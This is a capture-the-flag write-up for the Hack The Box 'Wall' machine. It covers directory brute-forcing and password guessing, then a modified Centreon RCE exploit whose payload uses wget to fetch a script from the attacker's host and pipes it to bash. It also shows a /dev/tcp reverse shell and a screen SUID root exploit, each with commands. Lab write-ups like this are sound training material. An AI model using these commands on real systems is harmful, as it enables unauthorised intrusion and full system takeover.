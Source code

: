 # Wall

<h1 align="center">
  <br>
  <a href="https://www.hackthebox.eu/home/machines/profile/208"><img src="images/img.png" alt="wall"></a>
  <br>
</h1>
<h4 align="center"> Author: <a heref="https://www.hackthebox.eu/home/users/profile/91108" > thek</a></h4>

***

__Machine IP__: 10.10.10.157

__DATE__ : 20/09/2019

***

## Nmap

![](images/nmap.png)

There are only 2 port open, the 3rd one in the scan is filtered. We start our enumeration from HTTP service.

***

## HTTP

If we visit the IP in the browser we'll get `Apache2 Ubuntu Default Page`. So I started gobuster scan on it.

```bash
➜ gobuster -e -w CTFs/lists/big.txt -u http://10.10.10.157/
```

We can see that there is `/monitoring` When we try to visit the URL it prompts for username and password. Since we don't have any hint about credentials we'll try to dictionary attack the login.

We can use hydra or burp suite for cracking the password. I used burp suite, I loaded the default password list and used `admin` as username. After few minute you'll find out that the password is `password1`.

Using `admin:password1` we are able to login but the moment we login we are redirected to `/centreon`

![](images/centreon.png)

Since this look like some kind of monitoring tool I used `searchsploit` to search for centreon exploit and found one.

![](images/exploits.png)

I downloaded the exploit and ran it like

```bash
➜ python centreon.py http://10.10.10.157/centreon/ admin password1 10.10.14.225 4444
```

But this didn't trigger the shell because there are some changes required within the exploit. There is a line in the exploit

```json
"nagios_bin": "ncat -e /bin/bash {0} {1} #".format(ip, port),
```

In the end it's using `#` the problem is server is running `mod_security-filter` triggers on `#`, so we have to find an alternative character for that or use someother way to get a shell.

[@4ndr34z](https://twitter.com/4nqr34z) said that we can run a python server hosting a shell file and then wget that file using our RCE exploit.

First let us edit the RCE exploit. Edit the RCE exploit in the following ways:

* Remove line 22 - 25 i.e

```python
if len(sys.argv) != 6:
    print(len(sys.argv))
    print("[~] Usage : ./centreon-exploit.py url username password ip port")
    exit()
```
* Remove line 30 and 31 i.e

```python
ip = sys.argv[4]
port = sys.argv[5]
```

* Replace line 27-29 with:

```python
url = "http://10.10.10.157/centreon/"
username = "admin"
password = "password1"
```

* Finally replace line 70 with

```json
"nagios_bin": "wget${IFS}-qO-${IFS}http://<LocalIP>/shell${IFS}|${IFS}bash;"
```

Once you are done editing the exploit. Do the following things:

* Make a shell script that will be executed on the machine
    - `echo "bash -I >& /dev/tcp/LocalIP/LOCALPORT 0>&1" > shell`
    - `chmod +x shell`
* Start a python server on port 80
    - `python3 -m http.server`
    - It's important to start the server on port 80 or else it __might__ not work
* Run the exploit
    - `python centreon.py`

If everything works out fine then you should have the shell.

![](images/rev.png)

***

## Privilege escalation

I ran my enumeration script on the system and found out that there were 3 other users and there was a root SUID.

![](images/users.png)

![](images/suid.png)

I used `searchsploit` to find the exploit for this SUID.

![](images/searchsploit.png)

I have used this exploit in some other vulnhub machines and I know that this script causes some issue when we try to execute it at once. So I manually separated the code into 2 different files.

* `libhax.c`

   ![](images/libhax.png)

compile using:

```bash
gcc -fPIC -shared -ldl -o libhax.so libhax.c
```

* `rootshell.c`

   ![](images/rootshell.png)

compile using:
```bash
gcc -o rootshell rootshell.c
```

Then I transfered both, `libhax.so` and `rootshell` to the machine and execute the following command one after the other

```bash
$ cd /etc
$ umask 000
$ screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
$ screen -ls
$ ./tmp/rootshell

```

This will give us the root shell.

![](images/root-shell.png)

__NOTE__: If you still have any doubt on how exploit is needed to be divided you can read my [vulnhub/DC5](https://mzfr.github.io/vulnhub-writeups/2019-07-09-DC5) writeup.

Then we can grab the root flag

![](images/root.png)

And since we didn't had the permission to read the `user` flag. Now we can get that too.

![](images/user.png)

***

This was a beginner level machine since the only issue one might have is in running the RCE exploit.

Thanks to [askar](https://twitter.com/mohammadaskar2) for making this machine.

Also thanks to [@4ndr34z](https://twitter.com/4nqr34z) and [@d4mianwayne](https://twitter.com/D4mianWayne) for great team work.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”. And if you'd like to support me considering [donating](https://mzfr.github.io/donate/) 😄
